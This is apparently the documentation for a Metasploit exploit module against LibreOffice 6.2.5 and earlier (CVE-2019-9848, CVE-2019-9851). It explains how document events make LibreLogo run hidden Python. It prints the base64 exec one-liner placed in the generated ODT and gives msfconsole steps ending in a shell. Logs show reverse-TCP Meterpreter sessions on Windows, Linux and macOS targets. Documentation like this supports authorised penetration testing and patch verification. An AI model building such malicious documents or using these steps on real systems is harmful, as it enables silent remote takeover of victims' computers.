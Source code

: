 ## Description

  This module exploits CVE-2019-9848, CVE-2019-9851 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. 

  By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a global dom loaded event that, when triggered, will execute any arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that executes the python payload generated by metasploit : 

  ```python
  exec(eval(str(__import__('base64').b64decode('#{b64_py_code}'))))
  ```

  To avoid any python error, the `h1` title written in the document is a python comment `#`.
  
  Thanks to Shelby Pace, this module is now platform-independent.

## Vulnerable Application

  LibreOffice version 6.2.5 and prior.

  This module has been tested successfully with:

  * LibreOffice 6.2.4 on Windows 7
  * LibreOffice 6.2.4 on Debian 9.9
  * LibreOffice 6.2.5 on Debian 9.9
  * LibreOffice 6.2.5 on Windows 7
  * LibreOffice 6.2.5 on Windows 10
  * LibreOffice 6.2.5 on Ubuntu 18.04
  * LibreOffice 6.2.5 on macOS 10.13.6

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the targets
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### LibreOffice 6.2.5 on Windows 10

  ```
  msf5 exploit(multi/handler) > run
  
  [*] Started reverse TCP handler on 192.168.56.4:4444 
  [*] Sending stage (53755 bytes) to 192.168.56.3
  [*] Meterpreter session 3 opened (192.168.56.4:4444 -> 192.168.56.3:51259) at 2019-08-18 08:57:20 -0400
  
  meterpreter > sysinfo
  Computer        : LL
  OS              : Windows 10 (Build 17134)
  Architecture    : x64
  System Language : fr_FR
  Meterpreter     : python/windows
  ```

### LibreOffice 6.2.5 on Ubuntu 18.04
  ```
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (53755 bytes) to 192.168.37.137
  [*] Meterpreter session 3 opened (192.168.37.1:4444 -> 192.168.37.137:46668) at 2019-08-16 15:38:54 -0500

  meterpreter > sysinfo
  Computer        : ubuntu
  OS              : Linux 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019
  Architecture    : x64
  System Language : en_US
  Meterpreter     : python/linux
  ```
  
### LibreOffice 6.2.5 on macOS 10.13.6

  ```
  msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.56.4:4444 
  [*] Sending stage (53755 bytes) to 192.168.56.2
  [*] Meterpreter session 1 opened (192.168.56.4:4444 -> 192.168.56.2:50795) at 2019-08-18 08:17:43 -0400

  meterpreter > sysinfo
  Computer        : MBP.local
  OS              : Darwin 17
  Architecture    : x64
  System Language : en_GB
  Meterpreter     : python/osx
  ```
